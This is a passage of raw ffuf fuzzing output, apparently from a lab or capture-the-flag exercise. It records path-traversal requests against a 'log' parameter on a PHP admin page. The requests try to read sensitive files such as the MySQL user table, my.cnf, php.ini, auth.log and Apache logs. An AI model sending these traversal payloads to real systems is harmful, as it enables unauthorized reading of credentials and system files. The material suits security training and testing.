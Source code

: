 charset=UTF-8","redirectlocation":"","scraper":{},"duration":45007294,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/lib/mysql/my.cnf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf59e","FUZZ":"/var/lib/mysql/mysql/user.MYD"},"position":158,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45206555,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/lib/mysql/mysql/user.MYD","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf59f","FUZZ":"/var/local/www/conf/php.ini"},"position":159,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45256895,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/local/www/conf/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a0","FUZZ":"/var/log/apache2/access_log"},"position":160,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45594518,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache2/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a2","FUZZ":"/var/log/apache2/error_log"},"position":162,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45483247,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache2/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a3","FUZZ":"/var/log/apache2/error.log"},"position":163,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42527031,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache2/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a1","FUZZ":"/var/log/apache2/access.log"},"position":161,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45817939,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache2/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a4","FUZZ":"/var/log/apache/access_log"},"position":164,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43161815,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a6","FUZZ":"/var/log/apache/error_log"},"position":166,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42544912,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a5","FUZZ":"/var/log/apache/access.log"},"position":165,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43175405,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a8","FUZZ":"/var/log/apache-ssl/access.log"},"position":168,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42614482,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache-ssl/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a7","FUZZ":"/var/log/apache/error.log"},"position":167,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43794829,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a9","FUZZ":"/var/log/apache-ssl/error.log"},"position":169,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44478371,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/apache-ssl/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ab","FUZZ":"/var/log/boot"},"position":171,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44072779,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/boot","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5aa","FUZZ":"/var/log/auth.log"},"position":170,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44358001,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/auth.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ac","FUZZ":"/var/htmp"},"position":172,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;